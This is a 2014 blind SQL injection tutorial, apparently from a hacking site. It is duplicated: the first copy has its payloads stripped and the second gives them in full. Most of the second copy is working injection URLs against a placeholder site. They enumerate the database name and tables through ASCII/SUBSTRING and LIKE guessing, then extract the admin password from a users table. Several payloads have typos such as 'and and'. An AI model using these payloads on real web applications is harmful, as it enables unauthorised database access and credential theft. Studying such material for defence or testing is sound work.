


I hope You Enjoyed reading Basic Injection, in this tutorial we will learn how we extract data from an application where there is no output and no error ` the database.

Blind SQL Injection is used when there is No Output and No Error from the web application, that means we cant inject the Union based injection in which we use to get the output nor we can Inject the XPATH or Sub Query Injection which use to get the output in form of Error. While doing a Blind injection we make Queries from the database and ask if we are right or wrong.
Lets us start from Testing the Website.
As we din't got the Error let us start the Blind SQL injection. Our next task is to try Commenting out the rest of Query part using out Comment Types.
That means we can comment out the Query using '#'. So we will continue with this one. Time to test is the Injection is really working fine.
That is good. we are on the right track now lets start the Blind SQL injection. Why we call it blind as we cant see anything we dont know anything what we do is just keep asking question from the database and get the reply in form of yes (Page loaded Normally) or NO (Page dint Loaded Normally).
There are again Two Ways for Blind SQL injection
1. First for N00bz like me who dont have common sense.
2. Second is for proffesional who have good common sense.
Let us First Discuss the First one.
In this injection we will use two new functions which is ASCII and Substring Function. Programmer or many others may be dont need any explaination about this. But for those who need explaination on them.
Ascii('a') will return 97 which is the Ascii value of a. So that means we can get the ascii value of any character passed to this function.
Substring Function
substring('n00b',1,1) will return n.
substring('n00b',2,1) will return 0.
substring('n00b',3,1) will return 0.
substring('n00b',4,1) will return b.
substring('n00b',5,1) will return empty.
I hope you understand the usage of both of them so now we will use both of them together.
Ascii(substring('n00b',1,1)) Now the substring function will return n then the ascii will return the Ascii value of n which is 110.
okay using both of these functions will help us quering the database. So lets check the Internal Query part.
Select column_name from table_name where id='input' and Ascii(substring('n00b',1,1))>100;
The above query will give the output Sucessfully as its true now when we
Select column_name from table_name where id='input' and Ascii(substring('n00b',1,1))>110;
It will return false as 110 is not smaller than 110. So this is how we will inject and query. Let us move to the injection part.
We can start retrieving the database name. But i suggest we can move the important part first checking if we have something juicy stuff inside, rather than just peeking inside shit.
Injection:
By the above Query we queried if the first character of first table under the current database greater than a. If it returns true (Page loads Normally) then we will increase it and check
By the above Query we queried if the first character of first table under the current database greater than n. If it returns true (Page loads Normally) then we will increase it and check. Let us assume it dint returned true, it returend False (Page dint Loaded Normally). Now we will decrease and check.
Lets assume is retured True. So now we know that the alphabet is between 105 and 110
So this is it. Now we know the first cahracter in this manner we will keep increasing the SubString Second parameter Number. and try to get out the whole table Name. And i really dont feel that i need to by typing the rest of commands to continue this injection. As any one who read rest of the tutorial can figure out the rest of the part.
But actually i dont like this one as its so slow. so i somehow figured out one other injection which can make the Blind injection faster. So lets move to that one. Here the injection struction is like this.
Getting started with the second one
Getting the Database Name:
Okay here in the above query you can understand the basic things as i suppose you read the other tutorials, so the only thing new in this one is 'dual' and like statement.
Dual is a table for testing so we can use it :D. you can go for Dual table in mysql wikipedia if you like to goto its root. over there what i know is that u can use it and continue the injection. Now the 'Like' statement this is used in place of = operator but using like we can actually use windcard character. If you dont know What is wildcard characters, then i ll suggest this place is not for you. Okay there are two Wildcard character which we are going to use they are '_' which stands for single character and '%' which stands for multiple character. Following are some examples for the Wild Characters usage.
Now let us start our Injection using this method. So the good thing about this injection we can guess and we can also check any character if exists in that word and after collecting this info we can make some nice guesses by our own.
Let us First check The Number of characters in current Database Name.
So now we know it have 7 characters. Now lets check the common characters a,e,i,o,u,s,t,r,h
After collecting this information let us assume we got a,e,d,b,s,_,1
Its the database so we can make a guess it makes the word 'dbase_1'
to make sure we are correct we can check it out
We got the Database name now lets target tables containing any column name which contains the string "pass".
We searched for the first table name which contains columns like pass. If the Query returns true that means there is some output. So now we can start guessing out the name after Couting the number of Characters.
So we got 5 characters. Now we can start geussing the characters.
Let us assume we got e,s,r,u after getting this we can quickly the the last will be again s which will make 'users'. Let us try
okay it worked now we will try to get the columns in the same way i will just give the example query. and u can use the same method to get the data. You can even try for common names.
in the end the last query to get the admin password we can use:
I hope it helped to understand the internal workring and to understand how to inject Blind sql injection in a web application.
Author : Zenodermus Javanicus
Date : 2014-03-25

Blind SQL Injection is used when there is No Output and No Error from the web application, that means we cant inject the Union based injection in which we use to get the output nor we can Inject the XPATH or Sub Query Injection which use to get the output in form of Error. While doing a Blind injection we make Queries from the database and ask if we are right or wrong.
Lets us start from Testing the Website.
www.vuln-web.com/photo.php?id=1/ No Error Website Loaded Normally
www.vuln-web.com/photo.php?id=1' No Error and Website Loaded Normally
www.vuln-web.com/photo.php?id=1' No Error But we found a small change in the Website which is diffrent from others.
As we din't got the Error let us start the Blind SQL injection. Our next task is to try Commenting out the rest of Query part using out Comment Types.
www.vuln-web.com/photo.php?id=1'-- No Error but The Small change is still there
www.vuln-web.com/photo.php?id=1'%23 No Error & even that change is not there
www.vuln-web.com/photo.php?id=1'/* No Error but The Small change is still there
www.vuln-web.com/photo.php?id=1'-- No Error but The Small change is still there
That means we can comment out the Query using '#'. So we will continue with this one. Time to test is the Injection is really working fine.
www.vuln-web.com/photo.php?id=1' and true%23 Normal Page returned
www.vuln-web.com/photo.php?id=1' and false%23 Page din't Load As normally it do as the query din't returned anything.
That is good. we are on the right track now lets start the Blind SQL injection. Why we call it blind as we cant see anything we dont know anything what we do is just keep asking question from the database and get the reply in form of yes (Page loaded Normally) or NO (Page dint Loaded Normally).
There are again Two Ways for Blind SQL injection
1. First for N00bz like me who dont have common sense.
2. Second is for proffesional who have good common sense.
Let us First Discuss the First one.
In this injection we will use two new functions which is ASCII and Substring Function. Programmer or many others may be dont need any explaination about this. But for those who need explaination on them.
Ascii('a') will return 97 which is the Ascii value of a. So that means we can get the ascii value of any character passed to this function.
Substring Function
substring('n00b',1,1) will return n.
substring('n00b',2,1) will return 0.
substring('n00b',3,1) will return 0.
substring('n00b',4,1) will return b.
substring('n00b',5,1) will return empty.
I hope you understand the usage of both of them so now we will use both of them together.
Ascii(substring('n00b',1,1)) Now the substring function will return n then the ascii will return the Ascii value of n which is 110.
okay using both of these functions will help us quering the database. So lets check the Internal Query part.
Select column_name from table_name where id='input' and Ascii(substring('n00b',1,1))>100;
The above query will give the output Sucessfully as its true now when we
Select column_name from table_name where id='input' and Ascii(substring('n00b',1,1))>110;
It will return false as 110 is not smaller than 110. So this is how we will inject and query. Let us move to the injection part.
www.vuln-web.com/photo.php?id=1' and Ascii(substring((<your_query_here_which_returns_one_row>),1,1))<any_number_here%23
We can start retrieving the database name. But i suggest we can move the important part first checking if we have something juicy stuff inside, rather than just peeking inside shit.
Injection:
www.vuln-web.com/photo.php?id=1' and and Ascii(substring((Select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97%23
By the above Query we queried if the first character of first table under the current database greater than a. If it returns true (Page loads Normally) then we will increase it and check
www.vuln-web.com/photo.php?id=1' and and Ascii(substring((Select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>110%23
By the above Query we queried if the first character of first table under the current database greater than n. If it returns true (Page loads Normally) then we will increase it and check. Let us assume it dint returned true, it returend False (Page dint Loaded Normally). Now we will decrease and check.
www.vuln-web.com/photo.php?id=1' and and Ascii(substring((Select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>105%23
Lets assume is retured True. So now we know that the alphabet is between 105 and 110
www.vuln-web.com/photo.php?id=1' and and Ascii(substring((Select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=106%23 False
www.vuln-web.com/photo.php?id=1' and and Ascii(substring((Select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=107%23 False
www.vuln-web.com/photo.php?id=1' and and Ascii(substring((Select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=108%23 True
So this is it. Now we know the first cahracter in this manner we will keep increasing the SubString Second parameter Number. and try to get out the whole table Name. And i really dont feel that i need to by typing the rest of commands to continue this injection. As any one who read rest of the tutorial can figure out the rest of the part.
But actually i dont like this one as its so slow. so i somehow figured out one other injection which can make the Blind injection faster. So lets move to that one. Here the injection struction is like this.
Getting started with the second one
Getting the Database Name:
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '%')%23
Okay here in the above query you can understand the basic things as i suppose you read the other tutorials, so the only thing new in this one is 'dual' and like statement.
Dual is a table for testing so we can use it :D. you can go for Dual table in mysql wikipedia if you like to goto its root. over there what i know is that u can use it and continue the injection. Now the 'Like' statement this is used in place of = operator but using like we can actually use windcard character. If you dont know What is wildcard characters, then i ll suggest this place is not for you. Okay there are two Wildcard character which we are going to use they are '_' which stands for single character and '%' which stands for multiple character. Following are some examples for the Wild Characters usage.
Select username from users where city like '%degora%'; Will output all the usernames from table users whos city colunm contains degora.
Select city from users where username like 'n00%' Will output all the cities whos username column starts with n00 or equals to n00.
Select city from users where username like '___' i used 3 underscores which means any 3 characters so this will output any city having 3 character username.
Select username,password wehre city like 'u_t__%' Over here i queried for usernames and password where city starts with 'u' and having 't' on third place and having atleast 5 characters. So any name which fits it will be passed.
Now let us start our Injection using this method. So the good thing about this injection we can guess and we can also check any character if exists in that word and after collecting this info we can make some nice guesses by our own.
Let us First check The Number of characters in current Database Name.
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '_____')%23 (we started from 5) False
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '______')%23 (Now we chaecked 6) False
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '_______')%23 (Now we checked 7) True
So now we know it have 7 characters. Now lets check the common characters a,e,i,o,u,s,t,r,h
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '%a%')%23 TrueAnd so on.
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '%e%')%23 True
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '%i%')%23 False
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '%o%')%23 False
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() like '%u%')%23 False
After collecting this information let us assume we got a,e,d,b,s,_,1
Its the database so we can make a guess it makes the word 'dbase_1'
to make sure we are correct we can check it out
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where database() = 'dbase_1')%23
True
We got the Database name now lets target tables containing any column name which contains the string "pass".
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')%23
We searched for the first table name which contains columns like pass. If the Query returns true that means there is some output. So now we can start guessing out the name after Couting the number of Characters.
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '____')%23 False
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '_____')%23 True
So we got 5 characters. Now we can start geussing the characters.
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%a%')%23 We checked A
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%s%')%23 We checked 'S'
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%d%')%23 We Checked 'D'
Let us assume we got e,s,r,u after getting this we can quickly the the last will be again s which will make 'users'. Let us try
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like 'users')%23
True
okay it worked now we will try to get the columns in the same way i will just give the example query. and u can use the same method to get the data. You can even try for common names.
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select column_name from information_schema.columns where table_schema=database() and table_name='users' and column_name like '%username%' limit 0,1) like '%')%23
if they return true then you dont have to waste your time in guessing characters.
in the end the last query to get the admin password we can use:
www.vuln-web.com/photo.php?id=1' and (select 1 from dual where (select password from users wehre username like '%admin%' limit 0,1) like '%')%23
I hope it helped to understand the internal workring and to understand how to inject Blind sql injection in a web application.
Author : Zenodermus Javanicus
Date : 2014-03-25